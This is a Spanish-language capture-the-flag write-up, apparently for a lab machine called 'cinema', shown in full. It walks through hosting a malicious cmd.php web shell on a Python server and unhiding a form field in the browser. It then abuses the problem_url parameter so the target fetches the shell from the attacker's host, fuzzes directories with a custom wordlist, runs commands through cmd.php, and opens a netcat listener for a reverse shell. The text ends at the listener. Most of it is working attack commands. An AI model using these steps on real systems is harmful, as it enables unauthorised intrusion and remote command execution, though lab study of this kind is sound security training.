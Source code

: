 Una ves creado montamos un servidor **python3** para dejar accesible nuestro **cmd.php** malicioso
```bash
python3 -m http.server 80
```
### Ejecucion del Ataque
Ahora sabemos que para el campo oculto si la vilidacion es realizada desde el navegador del usuario podemos aprovecharnos para elimiar la validacion quitendo el **hidden** en el tipo:
Una ves listo el archivo **malicioso** y el servidor con python, Desde las **herramientas de desarrollador** del navegador: Dejamos el campo **hidden** descativado:
```bash
<input id="problem_url" name="problem_url" value="" type=""> # Type Vacio
```

Ahora apartamos un aciento y damos en **reservarAsiento**, Tendremos un campo que nos permite abusar del parametro **problem_url** para apuntar a nuestro archivo malicioso de la siguiete forma:
```bash
http://cinema.dl/reservation.php?problem_url=http://172.17.0.1:80/cmd.php
```

Vemos que recibimos una peticion logrando cargar el archivo malicioso, ahora falta encontrar donde es que se almacena:
Ahora vamos a generar un diccionario permsonalizado en base a estos nombres;
```bash
andrew garfield
florence pugh
```

Con nuestra herramienta en python3 que nos permite generar un diccionario permsonalizado:
```bash
genPasswd.py -i 
```

Una ves obtenido el diccionario personalizado lo usaremos para **fuzzear** nuevas rutas:
```bash
gobuster dir -u http://cinema.dl/ -w cinema.txt --add-slash
```

Tenemos un directorio valido:
```bash
/andrewgarfield/      (Status: 200) [Size: 1148]
```

Ingresamos a la ruta y vemos que si es valida y en ella se encuentran dos archiovos, Inculyendo nuestro archivo malicisos **cmd.php**
```bash
http://cinema.dl/andrewgarfield/
```

Ahora usaremos nuestro script para ver si podemos ejecutar comandos en la maquina victima:
```bash
# Comandos para explotación
http://cinema.dl/andrewgarfield/cmd.php?cmd=whoami
```

### Intrusion
Modo escucha para ganar acceso al **target**
```bash
nc -nlvp 443
```
